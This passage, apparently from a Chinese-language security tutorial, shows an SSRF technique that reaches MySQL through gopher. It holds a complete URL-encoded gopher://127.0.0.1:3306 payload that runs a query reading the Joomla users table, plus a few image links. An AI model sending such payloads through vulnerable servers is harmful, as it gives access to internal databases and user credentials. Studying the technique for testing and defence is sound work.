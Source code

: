 [![](assets/1710898772-1b6a96642420011461a9e48d32933e65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173022-263fbea8-e053-1.png)  
随后我们用同样方法构建 payload 其中 mysql 的查询语句为：

```plain
use joomla;select * from joomla_users;
```

[![](assets/1710898772-75085a35d5ddf6329fa6ff70b5a3bed4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173046-34d9eb28-e053-1.png)  
访问下面的连接

```plain
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%27%00%00%00%03%75%73%65%20%6a%6f%6f%6d%6c%61%3b%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%6a%6f%6f%6d%6c%61%5f%75%73%65%72%73%3b%01%00%00%00%01
```

[![](assets/1710898772-7cc8ba84687a2e237d444d95ee6ec112.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173114-45522c36-e053-1.png)
=======
[![](assets/1710299749-ef3f093e8915bae666cb44c39b4fcf88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172742-c700bd2a-e052-1.png)  